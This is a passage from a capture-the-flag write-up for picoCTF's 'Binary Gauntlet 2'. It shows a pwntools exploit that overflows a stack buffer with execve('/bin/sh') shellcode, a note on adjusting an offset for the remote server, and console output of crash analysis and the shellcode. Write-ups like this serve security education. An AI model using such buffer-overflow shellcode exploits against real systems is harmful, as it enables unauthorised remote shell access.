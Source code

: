 ```python
payload = fit({
     0: asm(shellcode),
     overflow_offset: p64(buffer_address)
})

log.info("Sending payload:\n{}".format(hexdump(payload)))
io.sendline(payload)

io.interactive()

```

Notice the following addition to the script:

```python
if args.LOCAL:
    delta = 0x168
else:
    delta = 0x158
``` 

This was needed since the memory layout on the server was a bit different than the one on the local setup. Therefore, after testing and verifying the full exploit locally, it was easy to run it on the server and experiment with different `delta` values until a shell popped up on the server as well.

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/Binary_Gauntlet_2]
└─$ python3 exploit.py LOCAL
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process '/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet': pid 3138
[+] Starting local process '/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet': pid 3142
[*] Process '/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet' stopped with exit code -11 (SIGSEGV) (pid 3142)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/Binary_Gauntlet_2/core.3142'
    Arch:      amd64-64-little
    RIP:       0x400727
    RSP:       0x7ffde464c0f8
    Exe:       '/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet' (0x400000)
    Fault:     0x6161616161616170
[*] Overflow offset: 120
[+] Opening connection to mercury.picoctf.net on port 65046: Done
[*] Shellcode:
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push b'/bin///sh\x00' */
        push 0x68
        mov rax, 0x732f2f2f6e69622f
        push rax
        mov rdi, rsp
        /* push argument array ['sh\x00'] */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        xor esi, esi /* 0 */
        push rsi /* null terminate */
        push 8
        pop rsi
        add rsi, rsp
```